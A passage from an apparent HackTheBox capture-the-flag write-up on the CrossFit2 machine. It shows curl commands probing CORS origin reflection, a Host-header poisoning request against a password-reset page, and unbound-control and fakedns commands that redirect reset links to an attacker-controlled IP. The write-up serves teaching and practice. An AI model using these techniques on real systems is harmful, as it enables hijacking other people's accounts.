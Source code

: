 And here this technique work for both subdomains `employees.crossfit.htb` and `gym.crossfit.htb`
```bash
❯ curl -s -q -v -H 'Origin: http://employeesXcrossfit.htb' http://crossfit-club.htb/api/auth 2>&1 | grep "Origin"
> Origin: http://employeesXcrossfit.htb
< Access-Control-Allow-Origin: http://employeesXcrossfit.htb
```

Now the another thing we can do with that misconfigured domain `*employees.crossfit.htb` in relayd config. That wildcard can be anything. if we add something like `anything.htb/anything-employees.crossfit.htb` it still resolves `employees.crossfit.htb`

```bash
❯ curl -s -X 'POST' -H 'Host: anything.htb/anything-employees.crossfit.htb' --data-binary 'email=david.palmer%40crossfit.htb' 'http://10.10.10.232/password-reset.php' | grep alert | sed 's/.*role="alert">\(.*\)<button.*/\1/'
Only local hosts are allowed.
```

but host value stored as `anything.htb/anything-employees.crossfit.htb` and browser translate host as `anything.htb` and strip anything after first domain and this time, When victim click on reset link it will redirect to `anything.htb`.

Doing same [DNS Hijacking](#dns-hijacking) attack but this time we change host domain to `employeesXcrossfit.htb/employees.crossfit.htb`.

This time we add `employeesXcrossfit.htb` domain in unboun-control, because when user click on link with `employeesXcrossfit.htb/employees.crossfit.htb` host his browser everything after first domain and make request to `employeesXcrossfit.htb`.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71
```

And change `fakedns` config rule 
```bash
A employeesXcrossfit.htb 127.0.0.1 2%10.10.15.71
```

![](screenshots/signup-successful.png)
